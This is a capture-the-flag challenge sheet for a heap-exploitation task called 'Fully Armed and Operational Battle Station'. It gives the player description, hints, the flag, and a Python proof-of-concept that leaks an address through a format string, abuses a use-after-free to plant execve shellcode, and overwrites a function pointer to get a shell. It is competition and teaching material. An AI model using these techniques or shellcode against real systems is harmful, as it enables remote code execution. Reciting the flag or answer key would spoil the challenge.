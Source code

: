 Challenge Data:

| metadata |  |
|--- | --- |
| Developer Name(s) | Luke |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Exploit |
| Challenge Tier | 5 |
| Challenge Type | Container and file (deathstar_inventory_manager_v0.1_experimental_donotuse.elf) |

| Player facing |  |
|--- | --- |
|Challenge Name | Fully Armed and Operational Battle Station |
|Challenge Description | Rebel hackers have stolen some secret plans. They've recovered a file named 'deathstar_inventory_manager_v0.1_experimental_donotuse.elf' which was found to be running on the new IOT enabled DeathStar-ng. The rebels recommend setting up a ubuntu:18.04 docker container for experimenting, also the production binary is being run like so: ncat -lk 1300 -e /binary ... whatever that means. Good luck, we're counting on you. (The intent here is for you to get rce, but the thing is chroot jailed so only a few binaries like sh, ls and cat are present.) | 
|Challenge Hint 1 | Probably a bunch of vulns in this, but there is definitely a UAF. |
|Challenge Hint 2 | Use the source Luke... https://github.com/LukeHealy/Deathstar-ng |

| Admin Facing | <> |
| --- | --- |
| Challenge Flag| WACTF{Computers were a mistake.} |
| Challenge Vuln| Use after free allows overwriting of function pointer and DEP is disabled. |
| Docker Usage Idle | 0% CPU / 2MB RAM |
| Docker Usage Expected Peak | 0.4% CPU / 2MB RAM |

Challenge PoC
~~~python
from __future__ import print_function
import socket
import time
import sys
import subprocess
from binascii import unhexlify
from binascii import hexlify

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 1300))

def convert_to_hex_endian(addr):
    addr_e = ""
    if len(addr) % 2 != 0:
        addr = "0" + addr
    for i in range(0, len(addr), 2):
        addr_e = (addr[i] + addr[i+1]) + addr_e
    
    return unhexlify(addr_e)

def send(msg):
    sock.sendall(msg + b"\n")
    time.sleep(0.1)
    received = sock.recv(1024)
    #print(received)
    return received

def parse_leaked_addr(reply):
    #print(reply)
    addr = reply.split("\n")[0]
    addr2 = addr.split("0x")[5]
    return addr2

print("Adding first ship.")
print("Performing format string attack on ship name field.")
send(b"1")
send(b"%p%p%p%p%p%p%p%p%p")
send(b"8")
send(b"2")
addr2 = parse_leaked_addr(send("0"))
print("Leaked address of the ship: 0x" + addr2)
print("Add 8 to it.")
addr2 = hex(int(addr2, 16) + 8)[2:]
shellcode = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
call_addr = convert_to_hex_endian(addr2)
print("The leaked address is the one we want to call later: " + addr2)
print("Adding second ship")
send(b"1")
send(b"BBBB")
send(b"8")
print("Freeing the first ship.")
send(b"3")
send(b"0")
print("Performing use after free to write shellcode to first ship (now the banner).")
send(b"4")
send(b"\x90" * 8 + shellcode)
print("Freeing the second ship.")
send(b"3")
send(b"1")
print("Performing use after free to overwrite function pointer to point to first ship.")
send(b"4")
send(b"A" * 24 + call_addr)
print("Triggering call to function pointer of second ship.")
send(b"2")
sock.sendall(b"1\n")
print("Dropping into psuedo shell. (Don't run commands that have no output.)")

try:
    while True:
        cmd = raw_input("$ ")
        print(send(bytes(cmd)))
except:
    sock.close()
~~~
---
